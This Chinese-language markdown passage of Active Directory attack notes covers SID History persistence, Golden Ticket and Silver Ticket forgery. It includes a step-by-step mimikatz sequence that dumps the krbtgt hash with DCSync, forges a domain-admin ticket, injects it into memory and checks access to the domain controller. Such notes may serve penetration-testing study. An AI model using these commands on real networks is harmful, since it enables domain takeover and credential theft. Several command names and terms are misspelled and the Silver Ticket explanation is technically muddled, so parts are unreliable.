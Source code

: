 ### 特点

- 在控制域控制器后，可以通过注入SID History属性完成持久化任务
- 拥有高权限SID的用户，可以使用powershell远程到处与控制器的ntds.dit
- 如果不需要通过SID History 属性实现持久化，可以在mimikatz中执行命令`sid::clear /sam:username`

## 黄金票据（Golden Ticket）

在域环境中，每个用户账号的票据都是由Kebtgt生成的，如果攻击者拿到了krbtgt的NTML Hash或者AES-256值，

就可以伪造域内任意用户的身份，并以该用户的身份访问其他服务

**攻击者在使用鱼的Golden Ticket（黄金票据）进行票据传递攻击时，需要的信息：**

- 需要伪造的域管理员用户名
- 完整的域名
- 域的SID
- kebtgt的NYLM Hsah或者AES-256值

### mimikatz制作Golden Ticket

```sh
# 导出krbtgt的NTLM Hash
lsadump::dcsync /domain:hacke.testlab /user:krbtgt
# 获取域SID
wmic useraccount get name,sid
# 获取当前用户的SID
whoami /user
# 查询域管理员账号
net group "domain admins" /domain
# 查询域名
ipconfig /all
# 清空票据
kerberos::purge
# 生成票据
Kerberos::golden /admin: /domain: /sid: /krbtgt: /ticket:
# 传递票据并注入内存
kerberos::ppt xxx.kirbi
# 检索当前票据
Kerberos::tgt
# 检查权限
dir \\dc\c$ 如果列出C盘根目录的文件证明成功
# 使用kerbtgt的AES-256的值生成票据
Kerberos::golden /admin: /domain: /sid: /aes256: /ticket:
```

## 白银票据（Sliver Ticket）

Sliver Ticket不同于Golden Ticket。Silver Ticket 的利用过程是伪造TGS，通过已知的授权服务密码生成一张可以访问该服务的TGT。因为票据生成的过程中不需要使用KDC，所以可以绕过域控制器，很少留下日志。而Golden Ticket在利用过程中由KDC颁发TGT，并且在生成伪造的TGT的二十分钟内，TGS不会对TGT的真伪进行校验。

Silver Ticket依赖于服务账号的密码散列值，这不同于Golden Ticket利用需要使用krbtgt账号的密码散列值，因此更加隐蔽。

